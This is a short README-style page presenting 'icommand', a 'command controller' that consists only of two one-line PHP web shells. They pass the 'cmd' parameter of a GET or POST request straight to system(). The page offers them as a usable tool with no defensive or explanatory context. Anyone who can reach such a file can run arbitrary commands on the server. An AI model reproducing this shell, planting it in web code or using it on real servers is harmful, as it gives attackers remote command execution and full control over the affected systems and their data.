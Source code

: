 ### icommand - command controller for PHP system function
- - -
icommand works for **POST** and **GET** requests:
        <?php system($_GET['cmd']); ?>
        <?php system($_POST['cmd']); ?>
